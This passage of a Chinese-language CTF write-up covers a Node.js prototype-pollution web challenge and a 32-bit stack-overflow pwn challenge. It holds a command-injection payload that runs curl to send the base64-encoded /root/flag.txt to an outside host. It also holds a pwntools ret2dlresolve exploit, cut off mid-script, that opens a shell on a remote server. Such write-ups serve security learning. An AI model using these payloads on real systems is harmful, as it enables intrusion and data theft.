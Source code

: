 再次发送

```
"].__proto__["debug
```

这样就能提升成为admin用户，然后向`/admin`路由发送query参数p，使用进行rce

```
');process.mainModule.constructor._load('child_process').exec('curl http://ip:port/?a=`tac /root/flag.txt|base64`');_=('
```

[![](https://lisper.oss-cn-beijing.aliyuncs.com/picgo/20210731185728.png-WuarpUXJ)](https://lisper.oss-cn-beijing.aliyuncs.com/picgo/20210731185728.png-WuarpUXJ)

flag`{`d18fbbe1-6e32-4bbf-b076-f396f9961e49`}`



## pwn

### <a class="reference-link" name="1%E3%80%81mimic%20game"></a>1、mimic game

题目给了一个observer，原理是以mimic32作为子进程，另外从mimicpy,mimicgo两个程序中任选一个，也作为另一个子进程：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t019b09ffa1d3685f26.png)

在mimic32里面发现了栈溢出的漏洞点：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01f790ce51b514cc43.png)

看一下Mimic32开的保护：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t012e048537deb83270.png)

所以可以直接用 ret2dlresolve:

注意最后因为不能直接用标准输出，所以要进行重定向: 1&gt;$2

exp：

```
from pwn import *

# sh = process("./obs")
sh = remote("47.104.94.208", 33865)
libc = ELF("./libc-2.23.so.x86")

context.binary = elf = ELF('./mimic32')
rop = ROP(context.binary)
dlresolve = Ret2dlresolvePayload(elf,symbol="system",args=["/bin/sh 1&gt;&amp;2"])
rop.read(0,dlresolve.data_addr)
rop.ret2dlresolve(dlresolve)
raw_rop = rop.chain()
# print raw_rop

payload = flat(`{`48:raw_rop,80:dlresolve.payload`}`)
print payload
print len(payload)
payload = '\x00'*48 + payload[48:]


sleep(0.1)
```